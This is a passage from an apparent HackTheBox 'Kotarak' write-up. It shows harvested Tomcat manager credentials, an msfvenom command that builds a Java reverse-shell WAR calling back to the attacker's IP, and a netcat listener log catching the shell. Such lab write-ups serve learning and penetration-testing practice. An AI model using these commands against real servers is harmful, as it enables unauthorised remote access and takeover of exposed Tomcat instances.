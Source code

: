 ```xml
    <user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>
</tomcat-users>
```
This sets us up for a tomcat foothold over on `http://kotarak.htb:8080/manager/html`.

![](/assets/images/htb/kotarak/tomcat.png)
Lets make a weapon and deploy it! If this is the first time you are exploiting a tomcat server, check out [htb: jerry](https://kontari.github.io/hackthebox/htb-jerry-writeup/) or just google how to get a shell from accessing a tomcat manager instance.

> msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4445 -f war -o rev.war

Browse to `http://kotarak.htb:8080/rev/` and
```
nc -lvnp 4445                                                                                                           130 ⨯
listening on [any] 4445 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.55] 41118
whoami
tomcat
```
## tomcat -> user
